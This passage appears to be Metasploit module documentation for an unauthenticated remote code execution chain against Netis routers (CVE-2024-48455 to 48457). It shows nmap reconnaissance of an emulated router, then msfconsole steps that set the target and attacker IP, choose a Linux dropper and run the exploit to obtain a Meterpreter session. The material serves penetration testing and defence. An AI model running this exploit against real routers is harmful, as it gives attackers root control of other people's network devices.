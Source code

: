 ```shell
^C
--- 192.168.1.254 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 1.297/5.979/11.713/4.316 ms
 # nmap 192.168.1.254
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-29 19:39 UTC
Nmap scan report for 192.168.1.254
Host is up (0.020s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
53/tcp  open  domain
80/tcp  open  http
443/tcp open  https
MAC Address: 00:E0:4C:81:96:C1 (Realtek Semiconductor)

Nmap done: 1 IP address (1 host up) scanned in 1.19 seconds
```
You are now ready to test the module using the emulated router hardware on IP address 192.168.1.254

## Verification Steps
- [x] Start `msfconsole`
- [x] `use exploit/linux/http/netis_unauth_rce_cve_2024_48456_and_48457`
- [x] `set rhosts <ip-target>`
- [x] `set lhost <ip-attacker>`
- [x] `set target <0=Linux Dropper>`
- [x] `exploit`

you should get a `Meterpreter` session.

```msf
msf6 exploit(linux/http/netis_unauth_rce_cve_2024_48456_and_48457) > info

       Name: Netis Router Exploit Chain Reactor (CVE-2024-48455, CVE-2024-48456 and CVE-2024-48457).
     Module: exploit/linux/http/netis_unauth_rce_cve_2024_48456_and_48457
   Platform: Linux
       Arch: mipsle
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2024-12-27

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   Linux Dropper

Check supported:
  Yes
```